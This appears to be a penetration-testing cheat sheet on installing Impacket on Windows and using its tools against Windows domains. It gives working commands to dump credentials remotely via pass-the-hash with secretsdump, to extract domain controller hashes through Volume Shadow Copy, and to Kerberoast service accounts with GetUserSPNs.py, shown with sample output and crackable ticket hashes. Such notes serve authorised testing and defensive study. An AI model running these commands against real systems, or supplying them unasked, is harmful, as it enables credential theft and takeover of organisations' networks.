 Source: https://github.com/CoreSecurity/impacket/releases/tag/impacket_0_9_15

### Install impacket on Windows
```
	git clone https://github.com/CoreSecurity/impacket.git
```

Download VC++ For Python 2.7 (Needed to compile some modules)

- https://www.microsoft.com/en-us/download/details.aspx?id=44266

Install necessary modules (You may need to install pip first)

```
	python -m pip install pycrypto pyasn1 pyOpenSSL pyReadline ldapdomaindump
```

You can also download the PyCrypto binary if it fails to compile

- http://www.voidspace.org.uk/downloads/pycrypto26/pycrypto-2.6.win32-py2.7.exe

### Secretsdump

Attempt to dump credentials from a remote machine via Pass the Hash
```
	python secretsdump.py ./localadmin@computername.domain.com -hashes aad3b435b51404eeaad3b435b51404ee:21306681c738c3ed2d615e29be1574a3
```

Dump domain password hashes remotely via Volume Shadow Copy
```
	c:\users\username\appdata\local\temp\sd.exe domain/username:password@dchostname -just-dc -use-vss -outputfile
```

### GetUserSPNS.py

This is the easiest way to gather SPN tickets in the correct format for cracking with John or Hashcat
Source: https://room362.com/post/2016/kerberoast-pt2/
```
	root@wpad:~/impacket/examples# ./GetUserSPNs.py -request sittingduck.info/notanadmin -dc-ip <target DC ip address>
	Impacket v0.9.15-dev - Copyright 2002-2016 Core Security Technologies

	Password:
	ServicePrincipalName                Name        MemberOf                                              PasswordLastSet
	----------------------------------  ----------  ----------------------------------------------------  -------------------
	http/win10.sittingduck.info         uberuser    CN=Enterprise Admins,CN=Users,DC=sittingduck,DC=info  2015-11-10 23:47:21
	MSSQLSvc/WIN2K8R2.sittingduck.info  sqladmin01                                                        2016-05-13 19:13:20

	$krb5tgs$23$*sqladmin01$SITTINGDUCK.INFO$SPN*$6e5307df490c6e3339f613fdc5655785$80ba233b4d24531202f2e354c99e7eda807bde7aeeb48ee4cdb6bf809d78652413699e3cff8b9b78b9ee70e997a538155fc7f72e208d715020d458b8413d4b12b212738833c4694d84937d65cb8ecd0020c00a5d39c07da35a748ea2cb062fca4fa9b282e7046d70ee1cae4cfee7d6f791052e283
	$krb5tgs$23$*uberuser$SITTINGDUCK.INFO$SPN*$27c08ed2a8d5394f66e8c13c25c98393$310b787ec5c10b20fcc0acb1406b6a6e2ffddd71de3dc4c70c19e5dfcf262cc88574e61cb3940ebfd574b2bb555f2b05f84d8526e3cf46fc0ca57e03467729757cbf79da9f55cde9dabdda68e80dce6564e9f1b904b0585dbc813b82abf89e973e41c102b664f4c649f85acaf7904a273dddcb9315a66f27334f313190e1caf4f5055b671d250f5912cc1871a1dd4a6126087ddfb98ade8f7dde495ee8ad76583aa5a12eef63a690dd82a15eaaca0d7594f2f1dbc899035d89dd628b291590058cfb3405d1dfe4a383be5704465d9c8972ef8f1cba3541fdfa7dcf5063eaed74051fa18bd73f7b4f7d77
```
